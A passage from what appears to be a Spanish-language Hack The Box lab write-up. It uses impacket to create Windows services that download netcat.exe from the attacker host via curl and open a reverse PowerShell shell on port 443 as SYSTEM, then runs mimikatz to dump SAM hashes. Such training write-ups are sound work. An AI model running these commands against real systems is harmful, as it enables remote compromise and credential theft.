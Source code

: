 Si intentamos dumpear la SAM con secretsdump, nos encontramos con un pequeño error.

```bash
❯ impacket-secretsdump dev.htb.local -k -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0xe4b2298c95677ce18cd2198b9a36c7df
[-] SAM hashes extraction failed: SMB SessionError: STATUS_BAD_NETWORK_NAME({Network Name Not Found} The specified share name cannot be found on the remote server.)  
[-] LSA hashes extraction failed: SMB SessionError: STATUS_BAD_NETWORK_NAME({Network Name Not Found} The specified share name cannot be found on the remote server.)  
[*] Cleaning up...
```

Como observamos en la máquina Resolute, el hecho de que crackmapexec devuelva "Pwn3d!" indica privilegios a nivel de servicios y no necesariamente de recursos SMB. Por lo tanto, aprovecharemos esta situación. Podemos utilizar "services" para crear un nuevo servicio llamado "netcat" que ejecutará un comando curl hacia nuestro host para descargar el archivo netcat.exe en la máquina objetivo.

```python
try:
    # 0xF003F - SC_MANAGER_ALL_ACCESS
    # http://msdn.microsoft.com/en-us/library/windows/desktop/ms685981(v=vs.85).aspx
    ans = scmr.hROpenSCManagerW(dce,'{}\x00'.format(self.host),'ServicesActive\x00', 0xF003F)  
    self.admin_privs = True
except scmr.DCERPCException as e:
    self.admin_privs = False
    pass
```

```bash
❯ impacket-services dev.htb.local -k -no-pass create -name netcat -display netcat -path 'curl 10.10.14.10/netcat.exe -o C:\ProgramData\netcat.exe'  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating service netcat
```

Una vez que utilizamos la función "start" para ejecutar el servicio "netcat" que creamos anteriormente, recibimos una solicitud del netcat.exe en nuestra máquina, lo que indica que el netcat se ha descargado y hemos logrado ejecutar comandos en la máquina DEV.

Ahora, procedemos a crear un servicio llamado "shell" que ejecute el netcat.exe para enviar una sesión de PowerShell a nuestro host a través del puerto 443. Luego, lo ejecutamos.

```powershell
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.38.17
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.  

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32>
```


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>